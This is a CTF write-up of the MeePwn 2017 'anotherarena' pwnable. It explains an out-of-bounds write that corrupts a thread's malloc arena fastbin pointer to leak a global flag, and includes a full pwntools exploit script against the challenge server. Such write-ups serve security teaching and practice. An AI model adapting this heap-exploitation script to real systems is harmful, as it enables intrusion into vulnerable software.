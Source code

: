 title: MeePwn CTF 2017 -- anotherarena
author: bruce30262
tags:
  - CTF
  - Pwnable
  - Python
  - MeePwn
  - heap
categories:
  - write-ups
date: 2017-07-16 11:00:00
---
**Category:** Pwnable

64 bit ELF, Partial RELRO, canary & NX enabled, No PIE.  

<!-- more -->


The program is a simple crackme program with multi-thread. First, the program will read the FLAG into a global buffer `flag` . Then, it will ask us to input the size of a buffer. Later the program will use a thread to malloc a buffer `buf` with the given size. Then the program will use another thread to do the following:  
* Ask for a 4 byte data and treat it as `index`
* Ask for a 4 byte data, and store it at `buf[index]`
* Repeat


It will repeat `given_size / 4` times. If the input `index` is larger than the given size, it will also break out the loop. Basically it just letting us input a bunch of integers to the `buf` buffer.  


After that the program will do the following:
```c
/* add all integers in buf to v5*/
for ( i = 0; i < LODWORD(g_size[0]); i += 4 )
    v5 += *(int *)((char *)g_heap_buf + (signed int)i);

/* read size and allocate a buffer ( for license) */
size = read_int();
lic = malloc((unsigned int)size);
/* read to lic */
read(0, lic, (unsigned int)size);
/* crackme check*/
if ( v5 == 3233853430 )
    printf("Good boy! Your license: %s\n", lic);
else
    puts("Bad b0y!");
exit(0);
```

So, to solve this challenge, we'll have to:
* Pass the crackme check ( this is easy )
* **Locate the `lic` buffer at ( or near ) the `flag` buffer**, so later we can leak the flag by print out the license content. We'll focus on this one.


First of all the program has a out-of-bound write vulnerability: by input a **negative** `index`, we can overwrite the data at `buf[-XXX]`.  

Before we use this vulnerability to exploit the service, we'll have to understand how the malloc work in different thread. When a thread wants to malloc a buffer, it will use its own `arena` structure, a data structure which stores the malloc state of that thread ( check out the [source code](https://code.woboq.org/userspace/glibc/malloc/malloc.c.html#1648) ). The `arena` structure will also store the fastbin chunks' address ( the `fastbinsY[NFASTBINS]` member ). 

If we can control `fastbinsY[NFASTBINS]`, we'll be able to malloc a fastbin chunk at any address ( theoretically, since we'll still need to bypass some check in malloc ). By using gdb, we can locate the thread `arena`'s address is at `buf - 0x8a0`, making us able to use the OOB write to overwrite its data structure.

Now we'll have to choose our fake chunk's location. I decided to choose the address `0x6020bd`: 

```
gdb-peda$ x/2gx 0x6020bd
0x6020bd:       0xfff7bb5540000000      0x000000000000007f   <-- fake fastbin chunk ( size = 0x70 )
```

We can see that `0x6020bd` is a good target of a fake fastbin[5] chunk ( size = 0x70 ). The `0x7f` is a part of the `stderr` address. Moreover, the `flag` is at `0x602101` ( behind the fake chunk ) , so we can just pad some chars to the allocated chunk ( pad until it reach the beginning of the flag buffer ), later when the program print out the license content, it will give us the flag as well.  

So to sum up:
1. Use the OOB write to overwrite `fastbinsY[5]`
2. Choose the fake fastbin[5] chunk target at `0x6020bd`
3. Input the data to bypass the crackme check
4. Input allocate size to make `malloc()` allocate fastbin[5] ( size = 0x70 )
5. Pad the allocated buffer until it reach the `flag` buffer
6. Print out the license and get the flag

```python exp_arena.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "139.59.241.76"
PORT = 31335
ELF_PATH = "./anotherarena_noalarm"

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object

flag = 0x602101
fake_chunk = 0x6020bd

def write(off, data):
    r.send(p32(off))
    time.sleep(0.5)
    r.send(p32(data))
    time.sleep(0.5)

if __name__ == "__main__":
    
    r = remote(HOST, PORT)

    r.sendline("50")
    time.sleep(0.5)
    # move the offset to thread's arena + 0x30 ( fastbin[5], size=0x70 )
    # fake chunk near stderr, use its 0x7f to create fake chunk
    write(0xfffff790, fake_chunk)
    # make final answer = 3233853430
    write(0, 0x7fffffff)
    write(4, 0x40c0af8f)
    
    # break loop
    r.send(p32(100)) 
    time.sleep(0.5)
    
    # allocate buf & pad to flag
    r.sendline("104") # allocate 104 byte
    time.sleep(0.5)
    r.send("i"*0x34) # pad to flag

    r.interactive()
```

flag: `MeePwnCTF{oveRwrit3_another_(main)_arena}`

